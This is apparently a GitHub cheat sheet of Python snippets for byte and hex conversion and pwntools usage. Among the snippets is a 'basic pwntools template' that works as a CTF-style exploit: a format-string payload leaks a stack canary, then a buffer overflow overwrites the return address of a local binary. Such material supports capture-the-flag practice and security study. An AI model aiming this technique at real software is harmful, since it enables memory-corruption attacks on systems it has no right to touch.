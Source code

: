 # Python Snippets

- hex to bytes to string

```python
hex_value = "4765656b73666f724765656b73"
byte_str = bytes.fromhex(hex_value)
result_str = byte_str.decode('utf-8')
```

- string to bytes

```python
byte_arr = str.encode("Foo")
```

- string to hexdump

```python
byte_out = "string".encode().hex()
```

- hex string to int

```python
x = int("deadbeef", 16)
x = int("0xdeadbeef", 0)
x = int("0xdeadbeef", 16)
```

- integer to binary/octal/hexadecimal

```python
bin(23)  
oct(31)
hex(26)
```

- basic pwntools template

```py
#!/usr/bin/python
import pwn

# we use a separate pty to resolve IO issues on some terminals
pty = pwn.process.PTY
proc = pwn.process("./a.out", stdin = pty, stdout = pty)

proc.recvuntil(b"lies at ")
addr = proc.recvline().decode("utf-8").strip()
# print("addr =", addr)

addr = int(addr, 16)

proc.recvline()
proc.recvline()

pad = b"-" * 11
buffer = b"a" * 32
format_string_payload = buffer + pad + b"%21$p"

proc.sendline(format_string_payload)

proc.recvline()
proc.sendline(b"2020")

proc.recvline()
proc.sendline(b"06")

proc.recvline()
proc.sendline(b"16")

proc.recvuntil(b"to " + pad)

canary = proc.recvline().decode("utf-8").strip()
# print("canary =", canary)

canary = int(canary, 16)

proc.recvuntil(b"you?")

buffer = b"a" * 32
format_string = b"b" * 16

padding = b"c" * 8

payload = buffer + format_string + padding + pwn.p64(canary) + padding + pwn.p64(addr)

proc.sendline(payload)

proc.recvline()
proc.recvline()
print("############################# PROGRAM OUTPUT #########################")
print(proc.recvline().decode("utf-8"))
print("######################################################################")
```

- connect to a netcat port

``` python
io = remote("new.domain.name", 80)
io = remote("12.12.12.12", 5000)
```

- receive xyz after connecting

``` python
io.recv(n) # nbytes
io.recvline() # till newline
io.recvuntil("string") #receive until the occurrence of string
```

- send xyz after connecting

``` python
io.send(b'bytes')
io.sendline(b'bytes') # also sends a newline
```

- convert an integer to 32/64 byte address little-endian

``` python
pwn.p32(some_integer)
pwn.p64(some_integer)
```

- same as above, but big-endian, and signed

``` python
pwn.p64(some_int, endian="big", sign=True)
```
